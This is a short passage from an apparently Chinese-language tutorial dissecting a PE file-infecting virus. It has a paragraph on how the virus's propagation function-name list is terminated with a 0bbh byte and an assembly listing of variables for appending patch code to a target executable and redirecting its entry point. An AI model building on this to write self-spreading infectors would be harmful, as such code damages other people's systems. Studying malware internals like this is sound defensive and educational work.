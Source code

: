------

==传播病毒时用到的函数名列表如上所示，它们是以一个`0bbh`字节（保证该字节和函数名中定义的任何一个字符都不相等）结尾，主要目的是通过设置一个标志字节，可以有效地利用循环，避免逐个函数处理，以提高编程效率==。==当碰到第一个字节为`0bbh`时，循环即结束==。==这种方法可以让代码变得更短==，同理，行109的函数地址也是如此定义。

------

```assembly
68 dd 12345678h
69 newSize 		dd 00000000h
70 searchHandle dd 00000000h
71 fileHandle 	dd 00000000h
72 mapHandle 	dd 00000000h
73 mapAddress 	dd 00000000h
74 addressTableVA 	dd 00000000h
75 nameTableVA 		dd 00000000h
76 ordinalTableVA 	dd 78563412h
77 dwPatchCodeSize 	dd ? ;补丁程序大小
78 dwNewFileSize 	dd ? ;新文件大小=目标文件大小+补丁程序大小
79 dwNewPatchCodeSize 	dd ? ;补丁程序按8位对齐后的大小
80 dwPatchCodeSegStart 	dd ? ;补丁程序所在节在文件中的起始地址
81 dwSectionCount 		dd ? ;目标文件节的个数
82 dwSections 			dd ? ;所有节表大小
83 dwNewHeaders 		dd ? ;新文件头的大小
84 dwFileAlign 			dd ? ;文件对齐粒度
85 dwFirstSectionStart 	dd ? ;目标文件第一节距离文件起始的偏移量
86 dwOff 				dd ? ;新文件比原来多出来的部分
87 dwValidHeadSize 		dd ? ;目标文件PE头的有效数据长度
88 dwHeaderSize			dd ? ;文件头长度
89 dwBlock1 			dd ? ;原PE头的有效数据长度+补丁程序的有效数据长度
90 dwPE_SECTIONSize	 	dd ? ;PE头+节表大小
91 dwSectionsLeft 		dd ? ;目标文件所有节数据的大小
92 dwNewSectionSize 	dd ? ;新增加节对齐后的尺寸
93 dwNewSectionOff 		dd ? ;新增加节项描述在文件中的偏移
94 dwDstSizeOfImage 	dd ? ;目标文件内存映像的大小
95 dwNewSizeOfImage 	dd ? ;新增加的节在内存映像中的大小
96 dwNewFileAlignSize 	dd ? ;文件对齐后的大小
97 dwSectionsAlignLeft 	dd ? ;目标文件节在文件中对齐后的大小
98 dwLastSectionAlignSize 	dd ? ;目标文件最后一节对齐后的最终大小，包含代码
99 dwLastSectionStart 		dd ? ;目标文件最后一节在文件中的偏移
100 dwSectionAlign 			dd ? ;节对齐粒度
101 dwVirtualAddress 		dd ? ;最后一节的起始RVA
102 dwEIPOff 				dd ? ;新eip指针和旧eip指针的距离
103
104
105
106 dwDstEntryPoint dd ? ;旧的入口地址
107 dwNewEntryPoint dd ? ;新的入口地址
108
```

------
